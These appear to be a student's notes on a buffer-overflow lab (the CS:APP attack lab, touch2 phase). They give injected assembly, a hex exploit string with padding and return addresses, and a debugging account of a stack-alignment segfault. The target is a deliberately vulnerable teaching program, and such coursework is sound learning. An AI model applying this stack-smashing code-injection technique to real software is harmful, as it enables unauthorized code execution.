 
1. address pf #touch2# is #00000000004017ec#
2. in order to pass if statement, we need to set %rdi to 0x59b997fa
3. ret to touch2
   ``` asm
   mov $0x59b997fa,%rdi  # from ./cookie.txt
   push $0x4017ec   # push the touch2 address onto stack
   ret
   ```
4. $rsp - 0x28 = 0x5561DC78 the start address of getbuf
5. use "ret" instead of "pop", because return will transfer the control to the address on the top of the stack, and pop will remove the address on the top of the stack


## error version

48 c7 c7 fa 97 b9 59 # mov $0x59b997fa,%rdi
c3 # ret
01 01 01 01 01 01 01 01
01 01 01 01 01 01 01 01
01 01 01 01 01 01 01 01
01 01 01 01 01 01 01 01 # 0x28
78 dc 61 55 00 00 00 00 # the bottom of the stack, in order to pass argument to touch2
ec 17 40 00 00 00 00 00 # when c3 is executed, the control will transfer to this address

will cause
``` asm
movaps %xmm1,0x10(%rsp)
```
to be executed, which will cause segmentation fault

'ret' == pop PC, PC = *rsp++, so rsp changed 

in touch2 func 
``` asm
sub $0x8, %rsp
```
and because we return 16, it overflow 8 bytes, so rsp changed

the way to fix it have two solutions:
1. reduce numbers of "ret", but can't set argument
2. both can onto stack and make --rsp, i.e. move argument to the top of the stack